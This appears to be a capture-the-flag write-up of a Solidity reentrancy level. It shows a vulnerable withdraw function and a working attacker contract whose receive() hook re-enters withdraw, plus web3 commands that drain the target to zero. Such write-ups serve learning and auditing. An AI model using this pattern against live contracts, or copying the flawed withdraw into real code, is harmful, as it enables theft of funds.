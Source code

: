 In `withdraw`, the balances are updated at the end of the function:

```solidity
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value:_amount}("");
    if(result) {
        _amount;
    }
        balances[msg.sender] -= _amount;
    }
}
```

So the contract calls back the recipient before updating his balance:
on `msg.sender.call{value:_amount}("");`, he can run `withdraw` *again* with the same balance.

Actually, the function can run recursively forever if it is called while make sure that the first check is satisfied.

If the contract has 100 WEI and `balances[msg.sender]` holds 1 WEI, after 100 calls of `_amount` 1 the target is empty.

## Prepare

A standard address cannot callback when receiving ether.
This scenario requires to craft a malicious contract that can process payments.

Upon creation, the contract will deposit funds:

```solidity
constructor() payable {
    Cow(TARGET).donate{value:msg.value}(address(this));
}
```

This then allows to withdraw and implement the attack.

## Attack

When the contract receives money it asks for another round right away, in the same transaction:

```solidity
receive() external payable {
    if (TARGET.balance > 0) {
        Cow(TARGET).withdraw(msg.value);
    }
}
```

```js
// 1000000000000000
toWei(await getBalance(contract.address))
// 2000000000000000, after deployment
toWei(await getBalance(contract.address))
// start the recursion
web3.eth.sendTransaction({ from: player, to: '0x092d9a1E0BB316157c461fc8B8396D24e714Fa59', value: 1000000000000000 });
// 0, after attack
toWei(await getBalance(contract.address))
```
